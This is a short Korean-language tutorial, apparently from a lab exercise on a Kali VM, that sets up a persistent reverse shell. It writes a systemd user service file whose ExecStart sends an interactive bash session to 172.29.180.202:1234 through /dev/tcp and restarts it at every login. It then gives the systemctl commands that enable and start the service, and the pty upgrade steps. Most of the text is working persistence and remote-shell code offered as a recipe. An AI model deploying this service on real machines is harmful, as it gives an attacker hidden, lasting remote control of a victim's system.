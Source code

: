 <br>


해당 경로에 파일을 만들어주고 편집기를 켜준다.   

```bash
mkdir -p ~/.config/systemd/user

nano ~/.config/systemd/user/reverse-shell.service
```

```ini
[Unit]
Description=User Reverse Shell

[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/172.29.180.202/1234 0>&1'
Restart=always

[Install]
WantedBy=default.target
```

이렇게 작성해주면 된다.  
<br>

요약해서 간단하게 소개하자면  

`ExecStart`의 명령어를 쉘이 종료된 이후에도 작동되고,  
`WantedBy=default.target`으로 로그인마다 실행하게 된다.   
<br>

저장을 해준 뒤  

```bash
systemctl --user daemon-reexec
systemctl --user daemon-reload
systemctl --user enable reverse-shell.service
systemctl --user start reverse-shell.service
```

이렇게 systemd에 적용해주고 실행시켜주면 된다.  
`systemctl --user enable reverse-shell.service` 여기서 자동 실행까지 해주면 로그인마다 쉘 연결이 될 것이다.  
<br>

그러고 kali1 VM을 껐다가 다시 로그인해주면   

<img src="https://github.com/user-attachments/assets/17656b4c-30fa-43c6-8e8c-cd28466b76f5" width=1000>   

이렇게 쉘이 연결된 것을 볼 수 있다.  
근데 쉘이 조금 이상하니까  

<br>

<img src="https://github.com/user-attachments/assets/43f7f742-9cca-4cf6-9c63-d99cf26fd30d" width=1000>  

이렇게 xterm 으로 바꾸고  
pty를 얻어 `systemd`에 재부팅시 `bash -c 'bash -i >& /dev/tcp/172.29.180.202/1234 0>&1'` 를 보내는  
서비스를 등록해주면 익숙한 모양으로 잘 나온다.   
<br>
